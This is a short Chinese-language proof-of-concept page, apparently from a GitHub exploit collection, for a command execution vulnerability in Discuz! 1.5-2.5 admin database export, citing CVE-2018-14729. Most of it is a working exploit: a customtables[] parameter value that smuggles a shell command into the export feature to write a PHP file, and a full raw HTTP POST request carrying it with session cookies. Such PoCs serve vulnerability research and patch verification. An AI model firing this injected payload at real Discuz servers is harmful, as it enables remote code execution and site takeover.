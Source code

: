 # Discuz! 1.5-2.5 命令执行漏洞

## 影响版本

 **Discuz! 1.5-2.5**

## POC

需要登入后台。

![1](Discuz! 1.5-2.5 命令执行漏洞/1.png)
![2](Discuz! 1.5-2.5 命令执行漏洞/2.png)

修改的参数

参数`customtables[]`

    customtables%5B%5D=pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php #

数据包

    POST /discuz25/admin.php?action=db&operation=export&setup=1 HTTP/1.1
    Host: localhost
    Content-Length: 252
    Cache-Control: max-age=0
    Origin: http://localhost
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Referer: http://localhost/discuz25/admin.php?action=db&operation=export
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: _ga=GA1.1.994534325.1530166127; PHPSESSID=ffe1069f199ac7656303b61e42db4f5d; ECSCP_ID=e685eee56d5dc4a732b0b1ecb8cbac6becac2355; ECS_ID=b9e7920dfb02c84b5298d0022c64a8fc393376d7; Phpstorm-326452dc=558db1bc-7f7b-4670-8d36-9cef7d8c1b9d; ECS[visit_times]=8; 3Od_visitedfid=2; 3Od_auth=03d3WSoYgxBuC4Yg3mqq4yEVgLBDsrbNx%2F8rIcURpRI5sDFtpC1S9F%2BYa6BViyFggZYM7bac7evIAZJdgLOJ7Q; 3Od_sid=mm4AMQ; QoOR_2132_saltkey=V6AnRzmw; QoOR_2132_lastvisit=1545183584; QoOR_2132_widthauto=-1; R94S_2132_saltkey=1hs56u42; R94S_2132_lastvisit=1545220172; R94S_2132_promotion=1; R94S_2132_auth=75696lGYV1FEogy00DO%2FmyhWbxk8OljAPZAeSvxfgwvvLbMruyS2sfVSYZUG4wr3GYw5L66%2FfppgB9gzioss; R94S_2132_creditnotice=0D0D2D0D0D0D0D0D0D1; R94S_2132_creditbase=0D0D1D0D0D0D0D0D0; R94S_2132_creditrule=%E6%AF%8F%E5%A4%A9%E7%99%BB%E5%BD%95; R94S_2132_ulastactivity=e0adnKO8pY2qUt5XPBdVc3jbgQxCrCiAkAFzNuN%2Fu9wTbgHc7XLK; R94S_2132_sid=9H4E8j; R94S_2132_lastact=1545224711%09admin.php%09; QoOR_2132_sid=BdGwL9; QoOR_2132_sendmail=1; QoOR_2132_ulastactivity=9cf4%2B3XCcfF1uHee0LOFG0wa6FFvCc1Rp96Kg%2BkgOi%2FL7ovDRKru; QoOR_2132_auth=32d7SwpKowF2VAeqfqe0dWo1FjINHjZA9zt%2ByF8A7LOif0pFSaHnEznijiCaqgsQD8NSBtEiwEDL4Wrnx1gz; QoOR_2132_checkpatch=1; QoOR_2132_checkupgrade=1; QoOR_2132_lastact=1545224853%09admin.php%09
    Connection: close
    
    formhash=0d2eaac0&scrolltop=&anchor=&type=custom&customtables%5B%5D=pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php #&method=shell&extendins=0&sqlcompat=&usehex=1&usezip=0&filename=181219_u0CC19kJ&exportsubmit=%E6%8F%90%E4%BA%A4




## References
https://paper.seebug.org/763/

https://github.com/FoolMitAh/CVE-2018-14729

